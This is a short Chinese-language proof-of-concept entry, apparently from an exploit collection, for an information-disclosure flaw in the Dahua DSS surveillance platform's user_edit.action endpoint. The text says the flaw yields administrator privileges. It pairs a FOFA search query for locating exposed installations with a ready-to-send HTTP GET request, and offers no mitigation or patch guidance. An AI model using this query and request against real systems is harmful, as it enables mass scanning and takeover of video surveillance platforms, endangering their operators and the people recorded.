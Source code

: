 ## 大华城市安防监控系统平台管理存在user_edit.action信息泄露漏洞

大华DSS城市安防监控平台是一个在通用安防视频监控系统基础上设计开发的系统。该平台user_edit.action泄露了敏感信息漏洞，攻击者可以通过此漏洞获取管理员对应权限。

## fofa

```
app="dahua-DSS"
```

## poc

```
GET /admin/cascade_/user_edit.action?id=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: JSESSIONID=62BBD37D6AD7942778952E5ECE63494B; JSESSIONID=07A0062125A8903E4C6158A0244BABCD
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

![image-20240530140636249](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405301406487.png)